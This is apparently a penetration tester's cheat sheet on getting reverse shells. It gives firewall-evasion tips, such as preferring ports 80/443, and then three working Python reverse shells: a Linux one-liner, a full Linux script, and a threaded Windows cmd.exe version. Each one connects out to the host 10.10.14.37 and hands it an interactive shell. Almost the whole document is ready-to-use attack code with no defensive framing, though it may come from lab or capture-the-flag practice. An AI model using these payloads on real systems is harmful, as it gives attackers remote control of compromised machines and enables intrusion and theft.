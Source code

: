 ### Can't Shell?

1. Consider that firewalls may block high ports, so 80/443 are the way to go
2. Consider the application you're trying to use isn't installed, is broken, or has a certain feature disabled
3. If you're having issues transferring the shell due to character restrictions or filenames, remember `wget 10.10.14.37` gets `index.html`

### Python

This works especially well with LFI/RFI attacks, if Python is installed.

```python
# One-liner - Linx
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.37",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```python
# Full Script - Linux
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.37",8000))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```

```bash
# Full Script - Windows
import os,socket,subprocess,threading;
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.37",80))

p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```
